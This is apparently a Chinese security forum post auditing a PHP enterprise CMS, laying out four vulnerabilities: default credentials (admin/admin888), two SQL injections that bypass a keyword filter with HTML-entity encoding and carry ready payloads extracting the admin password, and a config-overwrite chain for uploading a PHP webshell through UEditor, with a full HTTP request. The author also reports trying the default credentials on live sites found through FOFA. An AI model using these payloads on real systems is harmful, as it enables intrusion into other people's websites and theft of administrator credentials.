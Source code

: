 简介
==

闪灵cms高校版是一款php开发的智能企业建站系统，该系统能让用户在短时间内迅速架设属于自己的企业网站。建站系统易学易懂，用户只需会上网、不需学习编程及任何语言，只要使用该系统平台，即可在线直接完成建站所有工作。

漏洞1：默认密码
========

在安装系统完成之后，到数据库就可以看到有几个默认系统用户密码（注意：这里不是管理员用户，只是普通用户，并无进入网站管理后台的权限）。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-12230fb279e05c707f5cc7661c05fdf1de3bca23.png)

随便找一个密码去解密比如：7FEF6171469E80D32C0559F88B377245

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-0e99fbd9fe2063d9dab84f7123a07f267f3b5d61.png)  
就得到了默认账户admin/admin888的登陆口令，现在去登录系统的用户后台。  
[http://localhost/member/member\_login.php](http://localhost/member/member_login.php)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-f1a3aa607cae4e82bcba9caeac3afe661cdeaf84.png)  
ps: 我去fofa随便找了几个网站试，成功率还是挺高的，不过得开用户登录后台功能，默认情况下是开启的。一般开启用户登录后台基本都会有这么几个默认用户。

漏洞2：用户后台update注入
================

路径：member/member\_edit.php  
可以看到以下代码，参数都是直接从post请求中获取,只是经过了htmlspecialchars过滤，然后直接拼接到sql语句当中，所以这段代码是存在注入的。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-04e0edb3a6b8d387dcb7c6318d90b93081efbd62.png)

验证：  
用navicat开启mysql日志，然后根据日志文件查看sql语句执行情况。

```mysql
set global general_log=ON;
show variables LIKE '%general_log%';
```

然后打上单引号看看是否效果如我们预想，发现其实代码还是有做防护的。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-eaae565b1a7dd014f1b926a2f71ffbc3e92ee2bb.png)

防护代码如下：  
路径：function/function.php  
如下图可见，POST请求经过了正则表达式的检测，如果匹配到敏感字符将会die掉程序终止执行。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-911ee9d253ced60d2438dd1903554f35b4494ff9.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-ea41855164193c79abc3bae73fc61f28c7feb367.png)

但是在member/member\_edit.php代码22行, 参数又经过了RemoveXSS函数的过滤。

```php
$M_info=RemoveXSS($_POST["M_info"]);
```

跟进这个函数可以看到这么一段代码，具体而言，这段代码是在处理一个字符串 `$val` 中出现的 HTML 实体编码，将其转换为对应的字符。具体实现方式是通过正则表达式匹配实体编码，并使用 PHP 内置函数 `ord()` 将匹配到的字符转换成 ASCII 码。然后，使用 `dechex()` 将 ASCII 码转换成 16 进制表示。最后，使用 `preg_replace()` 函数将匹配到的实体编码替换成对应的字符。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-b9d97c266b3b198e1f2c32ab404d04ee6b437d62.png)

那么就可以使用html实体编码sql注入payload用来绕过检测。  
比如'的html实体编码为&amp;#39，然后url编码一遍可以看到执行语句的日志。可以发现成功的绕过了检测，并且进入数据库的字符也被解码了。  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-7b42e3c0ba191352d725a9bd105d4ac8d3c30a63.png)  
直接上payload，注入获取管理员密码  
`%26%2339,M_info=(%26%23115elect a_pwd from sl_admin),M_add=%26%2339`  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-08b0b27b9d1fe7a72f6f368a7742ecb3f860765f.png)

漏洞3：论坛评论insert注入
================

路径：bbs/item.php  
和上个漏洞点形成原因一样只是换了个注入方式。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-72e7f8a29e73758f6bff74b5b11d8e819d049c04.png)

payload:  
`aaaaa%26%2339,%26%23392023-01-01%26%2339,7,1,1),(%26%2339aaa%26%2339,(%26%23115elect a_pwd from sl_admin), %26%23391010-02-02%26%2339,7,1,1) %23`

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-55cbd27c0e8e8660e33dc843486686b10538d64a.png)

漏洞4：管理后台文件上传
============

这个是一个组合漏洞，因为系统后台虽然可以设置上传文件格式，但是不允许设置php这些格式。但是好在过滤是以黑名单的方式，然后该系统又有ue编辑器，那么就可以上传一个json文件将其原有的config.json文件覆盖掉，最后通过ue编辑器上传webshell。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-a81ffd41f01a965227bade131a80f2d00deb9689.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-80ea47cf3b18c177b8cddbf2b74232037f1c357b.png)

首先在config.json文件处加上允许上传php

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-b3d8a1174057ecd37add09cfcf086942f10e251e.png)  
然后到后台修改一下安全配置，设置允许上传json格式的文件

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-5a162c9fb85e503b920306a386563a0a9220d3dc.png)

然后把刚刚修改好的文件上传覆盖掉原有的config.json文件  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-06a4cddce3d92374811b0ccf81e9ef0cf57288ac.png)

最后去ue编辑器发个包就大功告成了。

```http
POST /ueditor/php/controller.php?action=uploadfile HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryG33bK0VpwNWgBEHF
Connection: close

------WebKitFormBoundaryG33bK0VpwNWgBEHF
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: application/octet-stream

<? phpinfo(); ?>
------WebKitFormBoundaryG33bK0VpwNWgBEHF--
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-91817d800f8f79da48c5aece16988552cc20cb2b.png)

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-dd0c60c0a8696be3873355da07f4104934b7fee9.png)